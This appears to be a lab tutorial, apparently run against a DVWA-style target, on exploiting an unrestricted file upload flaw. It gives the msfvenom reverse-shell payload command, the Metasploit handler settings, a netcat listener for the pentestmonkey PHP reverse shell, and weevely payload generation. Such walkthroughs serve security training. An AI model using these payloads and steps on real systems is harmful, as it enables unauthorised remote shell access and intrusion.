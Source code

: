 **FILE UPLOAD vulnerability**

This is simple vulnerability which allow an attacker to upload any type of file. So an attacker upload the payload to gain the shell.

Lets see how it will perform.

First upload the legitimate image and explore that image we are able to see it. 

Lets create the payload with msfvenom

Command:- msfvenom -p php/meterpreter\_reverse\_tcp LHOST=192.168.1.178 LPORT=5555 -f raw > shell1.php

Upload this file to the web page.

Then boot the Metasploit with msfconsole command  

- use exploit/multi/handler
- set payload php/meterpreter\_reverse\_tcp
- set lhost 192.168.1.178
- set lport 5555

know call the file from the browser,

link:- http://192.168.1.105/hackable/uploads/shell1.php

` `as soon as we call it we got the shell.


Another method is to download the php script and just edit ip and port of the script in which we need to put our ip and port. Save the file . I saved it reverse1.php

Source :- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

We can get the shell through netcat command, similarly upload this file and call it.

Before calling it we need to turn on the listner

Command :- nc -nvlp 5555

Know call that file 

Link:- <http://192.168.1.105/hackable/uploads/reverse1.php>

We got the shell 

![](Aspose.Words.c26f63e3-5a21-43e8-831a-96dedae1093f.009.png)

Know we can run any linux command.

**Gaining shell with weevely tool**

Lets see another method, this method is only I am showing you to introduce new tool which name is weevely.

Weevely can generate payload and also get shell it self

Command :- weevely generate 123456 /root/weeve.php

Command work like first give command name than give instruction generate the script and know give the password than give the path where we want to save.

